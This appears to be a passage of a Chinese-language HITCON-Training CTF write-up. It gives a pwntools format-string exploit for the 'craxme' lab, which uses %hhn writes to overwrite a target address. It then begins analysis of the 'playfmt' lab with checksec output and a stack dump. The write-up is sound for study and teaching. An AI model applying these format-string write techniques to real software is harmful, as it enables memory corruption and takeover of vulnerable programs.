 首先将地址放在栈中，然后计算应该padding多少个字节，最后用hhn写入。注意取余

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./craxme")
p = process("./craxme")

p.recvuntil(":")

target_addr = 0x804a038
target = 0xFACEB00C
payload = p32(target_addr) + p32(target_addr + 1) + p32(target_addr + 2) + p32(target_addr + 3)
payload += "%" + str((0x0c - len(payload)) % 256) + "c%7$hhn"
payload += "%" + str((0xb0 - 0x0c) & 0xff)  + "c%8$hhn"
payload += "%" + str((0xce - 0xb0) & 0xff)  + "c%9$hhn"
payload += "%" + str((0xfa - 0xce) & 0xff)  + "c%10$hhn"

p.sendline(payload)

p.interactive()	

```

## Lab9——playfmt ##

### 防护 ###

```
liwc@ubuntu:~/pwn/HITCON-Training/LAB/lab9$ checksec playfmt
[*] '/home/liwc/pwn/HITCON-Training/LAB/lab9/playfmt'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)


```

### 分析 ###

也是格式化字符串的利用，每次向bss段上读入0xc8的格式化字符串，然后printf，当读入quit时，退出。

显然，因为格式化字符串不在栈上，所以处理起来有些麻烦，首先可以看到相对偏移为15的位置有一个libc上的地址，将它leak出来获得libc基地址。

```
gef➤  dereference $esp
0xffffcf0c│+0x0000: 0x08048540  →  <do_fmt+69> add esp, 0x10	 ← $esp
0xffffcf10│+0x0004: 0x0804a060  →  "AAAA%p%p%p%p%p%p%p%p%p"
0xffffcf14│+0x0008: 0x08048640  →  "quit"
0xffffcf18│+0x000c: 0x00000004
0xffffcf1c│+0x0010: 0x0804857c  →  <play+51> add esp, 0x10 
0xffffcf20│+0x0014: 0x08048645  →  "====================="
0xffffcf24│+0x0018: 0xf7fb1000  →  0x001b1db0
0xffffcf28│+0x001c: 0xffffcf38  →  0xffffcf48  →  0x00000000	 ← $ebp <= ebp1 7
0xffffcf2c│+0x0020: 0x08048584  →  <play+59> nop <= 8
0xffffcf30│+0x0024: 0xf7fb1d60  →  0xfbad2887
gef➤  dereference $esp
0xffffcf34│+0x0028: 0x00000000
0xffffcf38│+0x002c: 0xffffcf48  →  0x00000000 <= ebp2 11
0xffffcf3c│+0x0030: 0x080485b1  →  <main+42> nop <= 12
0xffffcf40│+0x0034: 0xf7fb13dc  →  0xf7fb21e0  →  0x00000000
```
